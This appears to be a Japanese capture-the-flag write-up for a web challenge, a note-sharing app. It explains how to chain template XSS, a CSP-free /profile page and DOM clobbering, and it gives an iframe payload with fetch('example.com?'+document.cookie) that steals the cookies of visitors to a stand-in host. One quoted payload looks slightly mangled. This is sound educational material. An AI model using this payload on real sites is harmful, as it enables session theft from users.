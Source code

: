 ```yaml
---
title: "hariboteSecureNote"
points: N/A
tags: ["web"]
---
```


これはノートアプリ。基本的な機能と、シェアする機能がある。

シェアされたノートはクローラが定期的に見回っているので、 XSSができそうということがわかる。

コードを読むと、この2箇所でXSSが起きそうなことがわかる。上はJavaScriptコンテキスト、下はHTMLのコンテキストで動作する。

```jinja
const printInfo = () => {
    const sharedUserId = "{{ shared_user_id }}";
    const sharedUserName = "{{ shared_user_name }}";
```

```jinja
render({{ notes }})
```

CSPが正しく設定されているので、HTMLのコンテキストで任意のスクリプトを動かすのは難しそう。

そして名前は16文字に制限されているため、JavaScriptのコンテキストでdocument.cookieを参照するのは不可能。

そこで、以下の事実を利用して

- `/profile`というCSPの設定されていないため、このページのコンテキストであればJavaScriptを動作させられる
- DOM Clobberingという手法で、HTMLを用いてJavaScript側から参照可能なグローバル変数を生み出せる


shared_user_nameには、`x.eval(p+''')` を設定し、notesには `<iframe src=/profile id=x><a href="javascript:fetch('example.com?'+document.cookie)">`を設定することで、アクセスした人のcookieを盗み出せる。